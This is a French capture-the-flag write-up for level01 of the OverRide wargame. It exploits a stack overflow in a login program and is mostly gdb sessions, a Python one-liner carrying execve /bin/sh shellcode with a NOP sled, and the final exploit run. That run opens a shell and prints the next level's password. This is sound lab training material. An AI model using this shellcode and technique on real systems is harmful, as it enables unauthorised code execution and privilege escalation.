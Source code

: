 # Level 01

Dans ce programme, on a deux variables, une pour le mot de passe et une pour le username.</br>
En premier lieu il va lire 256 caractères dans la variable username et vérifier que le username est égale à dat_wil.</br>
Si c'est le cas alors il va lire 100 caractères dans la variable pass, mais cette variable ne peut seulement contenir 16 caractères.

On va essayer d'overflow fgets pour récuperer l'offset jusqu'à EIP.
```
(gdb) r < <(echo "dat_wil";for x in {A..z}; do echo -n "$x$x$x$x"; done)
Starting program: /home/users/level01/level01 < <(echo "dat_wil"; for x in {A..z}; do echo -n "$x$x$x$x"; done)
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()


$ python
>>> bytes.fromhex("55").decode("ASCII")
'U'
>>> (ord('U') - ord('A')) * 4
80
```
Maintenant qu'on a notre offset, on va pouvoir faire un NOP sled avec un shellcode, en mettant l'adresse de notre NOP sled dans saved EIP.
```
level01@OverRide:~$ export SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`
level01@OverRide:~$ gdb ./level01
(gdb) b main
Breakpoint 1 at 0x80484d5
(gdb) r
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d5 in main ()
(gdb) x/200x $esp
0xffffd690:	0xf7fceff4	0x00000000	0x00000000	0xf7e45513
0xffffd6a0:	0x00000001	0xffffd734	0xffffd73c	0xf7fd3000
0xffffd6b0:	0x00000000	0xffffd71c	0xffffd73c	0x00000000
0xffffd6c0:	0x08048250	0xf7fceff4	0x00000000	0x00000000
0xffffd6d0:	0x00000000	0xd80bbdce	0xef0f59de	0x00000000
0xffffd6e0:	0x00000000	0x00000000	0x00000001	0x080483b0
0xffffd6f0:	0x00000000	0xf7ff0a50	0xf7e45429	0xf7ffcff4
0xffffd700:	0x00000001	0x080483b0	0x00000000	0x080483d1
0xffffd710:	0x080484d0	0x00000001	0xffffd734	0x080485c0
0xffffd720:	0x08048630	0xf7feb620	0xffffd72c	0xf7ffd918
0xffffd730:	0x00000001	0xffffd854	0x00000000	0xffffd870
0xffffd740:	0xffffd8f6	0xffffd90a	0xffffd91a	0xffffd939
0xffffd750:	0xffffd94c	0xffffd959	0xffffde7a	0xffffde85
0xffffd760:	0xffffde9c	0xffffdee9	0xffffdef8	0xffffdf10
0xffffd770:	0xffffdf21	0xffffdf2a	0xffffdf32	0xffffdf4b
0xffffd780:	0xffffdf5d	0xffffdf6d	0xffffdf9a	0xffffdfba
0xffffd790:	0x00000000	0x00000020	0xf7fdb430	0x00000021
0xffffd7a0:	0xf7fdb000	0x00000010	0x178bfbff	0x00000006
0xffffd7b0:	0x00001000	0x00000011	0x00000064	0x00000003
0xffffd7c0:	0x08048034	0x00000004	0x00000020	0x00000005
0xffffd7d0:	0x00000009	0x00000007	0xf7fdc000	0x00000008
0xffffd7e0:	0x00000000	0x00000009	0x080483b0	0x0000000b
0xffffd7f0:	0x000003e9	0x0000000c	0x000003e9	0x0000000d
0xffffd800:	0x000003e9	0x0000000e	0x000003e9	0x00000017
0xffffd810:	0x00000000	0x00000019	0xffffd83b	0x0000001f
0xffffd820:	0xffffdfdc	0x0000000f	0xffffd84b	0x00000000
0xffffd830:	0x00000000	0x00000000	0x88000000	0x7e0b14a9
0xffffd840:	0x8c1893d3	0xa2047e38	0x69702cbb	0x00363836
0xffffd850:	0x00000000	0x6d6f682f	0x73752f65	0x2f737265
0xffffd860:	0x6576656c	0x2f31306c	0x6576656c	0x0031306c
0xffffd870:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xffffd880:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd890:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8d0:	0x90909090	0x90909090	0x90909090	0xc0319090
0xffffd8e0:	0x2f2f6850	0x2f686873	0x896e6962	0x895350e3
0xffffd8f0:	0xcd0bb0e1	0x45540080	0x783d4d52	0x6d726574
0xffffd900:	0x3635322d	0x6f6c6f63	0x48530072	0x3d4c4c45
0xffffd910:	0x6e69622f	0x7361622f	0x53530068	0x4c435f48
0xffffd920:	0x544e4549	0x2e30313d	0x2e322e30	0x33332032
0xffffd930:	0x20343430	0x32343234	0x48535300	0x5954545f
0xffffd940:	0x65642f3d	0x74702f76	0x00302f73	0x52455355
0xffffd950:	0x76656c3d	0x31306c65	0x5f534c00	0x4f4c4f43
```
Dans cette liste d'hexa on va chercher nos NOP (0x90 en hexa) et prendre une adresse à peu près au milieu. (0xffffd8d0)
```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "B" * 80 + "\xd0\xd8\xff\xff"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
cat ~level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

